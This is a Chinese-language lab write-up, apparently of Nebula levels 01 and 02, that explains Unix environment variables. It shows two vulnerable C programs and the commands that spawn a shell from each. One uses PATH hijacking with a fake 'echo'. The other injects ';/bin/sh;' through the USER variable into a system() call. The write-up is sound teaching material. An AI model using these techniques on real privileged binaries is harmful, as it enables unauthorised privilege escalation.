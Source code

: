 # <center>Linux下漏洞分析入门实验1</center>

## 实验概述

### 【目的】
1. 运行level01,反弹shell。
2. 运行level02，反弹shell。
### 【环境】
Linux
### 【工具】
shell
### 【原理】
环境变量
在所有 Unix 和 类Unix系统中, 每个进程都有其各自的环境变量设置。 缺省情况下, 当一个进程被创建时， 除了创建过程中的明确更改外，它继承了其父进程的绝大部分环境设置。 在API层级上, 使用fork和exec函数进行变量设置。或利用bashshell文件, 使用特殊的命令调用来改变环境变量：通过env 间接替代或者使用ENVIRONMENT_VARIABLE=VALUE <command> 标识. 所有的Unix操作系统 以及DOS 和Microsoft Windows 都是用环境变量，但是它们使用不同的环境变量名称。我们可以通过运行程序来访问环境变量的值。环境变量的例子包括：

PATH 罗列出 shell 搜索 用户 输入的执行命令所在的目录。
HOME (类Unix系统) 和 userprofile (Microsoft Windows) 表示用户的主目录在文件系统中的位置。
TERM (类Unix系统) 指定使用终端或虚拟终端 的类型 (如, vt100 or dumb)。
CVS_RSH (类Unix系统) 该选项可用于 ext 方式中指明 cvs 客户端寻找远端 shell 的路径，用作连接 cvs 服务器和以更高的优先权覆盖 $CVS_RSH 环境变量中指定的路径。
MAIL (类Unix系统) 当前用户的邮件存放目录。
Shell 脚本 和 批处理文件 使用环境变量来存储临时值，用于以后在脚本中引用，也用于传递数据和参数给子进程。 在Unix系统中，一个在脚本或程序中更改的环境变量值只会影响该进程，亦可能影响其子进程。其父进程和无关进程将不受影响。在DOS中，更改或删除一个批处理文件中的环境变量值将改变变量的期限命令的存在。

在Unix系统通过初始化脚本启动时，环境变量通常会在此时被初始化，因此会被系统中的其它进程所继承。用户可以而且经常添加环境变量到他们使用的shell脚本中。 在Windows系统中，环境变量的缺省值存储在 windows 注册表 中，或者在 autoexec.bat 自动执行的批处理文件中设置。
## 实验步骤

### 【步骤】

#### level01
查看源码
```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
    gid_t gid;
    uid_t uid;
    gid = getegid();
    uid = geteuid();

    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);

    system("/usr/bin/env echo and now what?");
}
```
system()函数执行命令，其中使用环境变量的PATH路径下查找echo命令并显示and now what?
尝试运行，发现与预料中的结果一致。
```
~/nebula$ ./level01 
and now what?
```
要getshell，就需要运行system("/bin/sh")这里echo看起来是写死了不可改变的，但前面有`/usr/bin/env`,因此可以尝试修改环境变量。
在从环境变量制定的路径下查找echo时，会从第一个路径开始检索echo，如果在前面找到了echo，那么后面的路径就不会再遍历了，这是一个节约时间的策略，但是也就存在了我们可以利用的空间。
如果我们在PATH的最前面插入一个目录，其中包含一个可执行的假的echo，内容是`/bin/sh`，那么就可以执行system("/bin/sh")。
```
lometsj@ubuntu:~/nebula$ pwd        #显示当前目录
/home/lometsj/nebula
lometsj@ubuntu:~/nebula$ export PATH=/home/lometsj/nebula:$PATH   #把当前目录加到PATH的最前面
lometsj@ubuntu:~/nebula$ echo "/bin/sh" >echo                     #在当前目录伪造一个echo
lometsj@ubuntu:~/nebula$ chmod +x echo                            #加上可执行权限
lometsj@ubuntu:~/nebula$ ./level01                                #运行，getshell
$ echo u got it
u got it
$ exit


```
#### level02
查看源码
```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```
可以看到程序从环境变量的USER读取字符串通过"/bin/echo %s is cool"格式化写入到buffer，并且用system()执行buffer。目的很明确，我们需要修改USER。
要想执行system("/bin/sh"),先要使前面的"/bin/echo"结束。
在shell语法中，一条指令以`;`结束。
于是有
```
$ export USER=";/bin/sh;"
$ ./level02
about to call system("/bin/echo ;/bin/sh; is cool")

$ echo u got it
u got it


```
### 【总结】

本次实验主要熟悉了Linux的环境变量方面的漏洞。

